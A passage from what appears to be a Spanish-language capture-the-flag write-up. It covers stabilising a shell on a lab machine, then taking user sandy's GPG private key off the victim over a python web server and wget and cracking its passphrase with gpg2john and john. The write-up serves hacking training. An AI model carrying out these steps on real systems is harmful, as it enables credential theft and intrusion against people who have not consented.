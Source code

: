 Veremos que ha funcionado, por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si nos vamos a la siguiente carpeta:

```shell
ls -la /home/sandy/.gnupg/private-keys-v1.d
```

Info:

```
total 20
drwx------ 2 sandy sandy 4096 Sep  5 11:33 .
drwx------ 4 sandy sandy 4096 Oct  5 07:33 ..
-rw------- 1 sandy sandy 1255 Sep  5 11:33 0646B1CF582AC499934D8503DCF066A6DCE4DFA9.key
-rw------- 1 sandy sandy 2088 Sep  5 11:33 armored_key.asc
-rw------- 1 sandy sandy 1255 Sep  5 11:33 EF995B85C8B33B9FC53695B9A3B597B325562F4F.key
```

Veremos estos archivos bastante interesantes, nos vamos a pasar el archivo `armored_key.asc`a nuestra maquina atacante para `crackearlo` de esta forma:

```shell
python3 -m http.server
```

En la maquina atacante:

```shell
wget http://<IP_VICTIM>:8000/armored_key.asc
```

Una vez que nos lo descarguemos vamos a obtener el `hash` de la contraseña y `crackearlo` de esta forma:

```shell
gpg2john armored_key.asc > hash
john --wordlist=<WORDLIST> hash
```
